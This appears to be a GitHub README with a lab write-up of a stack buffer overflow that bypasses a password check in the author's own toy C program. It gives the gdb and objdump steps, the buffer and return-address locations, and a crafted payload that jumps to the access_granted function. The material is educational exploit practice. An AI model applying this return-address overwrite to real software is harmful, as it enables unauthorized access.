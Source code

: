 **The summary**

Use of stack buffer overflow, entry into the system without a password.

**Handbook**

1) Determine the addresses of the functions

gcc +o main main.c - create an executable main:
objdump -d main    - code dissassembly

![image](https://github.com/user-attachments/assets/f5e961e8-aeea-4bd0-a0c2-01f4999685b1)

2) Select a place in the code where you can look into the stack and locate the password buffer

gdb ./main // load the executable file main for debugging
disas check_password // function dissassembly
break *0x00005555555551ac //break point "test %eax,%eax"
info breakpoints //checking breakpoints
run //starting program in gdb

![image](https://github.com/user-attachments/assets/92c43eeb-75e9-4acc-921a-6b2723b8d777)

3) Locate the register holding the return address

enter the example password "password"
when it stops at a breakpoint

info frame //current stack frame info
x/40x $rsp //memory examination
continue 
run 

enter the example password "AAAAAAAAAAAAAAAAAA" to cause a segmentation fault
when it stops at a breakpoint
x/40x $rsp //memory examination

By manipulating the number of 'A' characters and comparing the memory in the cases described, it was determined that the return address was 0x55555200.
Try overwriting it.

![image](https://github.com/user-attachments/assets/f478a511-cc5b-4a36-acb4-7748a7393f96)

4) Exploit

What we know so far: 

0x7fffffffddd6 //beginning of the buffer (41 -> 'A')
0x7fffffffddc8 //register storing the return address

0x7fffffffddc8 value is currently 0x55555200.
We'd like to inject here access_granted's address which is 0x555555555169

![image](https://github.com/user-attachments/assets/df8b4da8-cfd9-4f5c-a9f0-3bf6c7e4575c)

Looking at the memory examination, we need to pass 0x555555555169 value just after overrun of the buffer. 

0x555555555169 - 6 bytes value. 

We're operating on a little endian system so we need to perform a small operation

0x555555555169 -> 0x0000555555555169 (x86-64)
0x0000555555555169 -> \x69\x51\x55\x55\x55\x55\x00\x00 (LE)

We are preparing for the interpretation of characters and not binary form 
AAAAAAAAAAAAAAAAAA\x69\x51\x55\x55\x55\x55\x00\x00 -> AAAAAAAAAAAAAAAAAAiQUUUU

Finally, let's try to enter this fake password

![image](https://github.com/user-attachments/assets/b425eb30-2600-43f4-99b5-f75a0adbbc43)


Inspired by https://pagedout.institute/ 
Summer 2k24
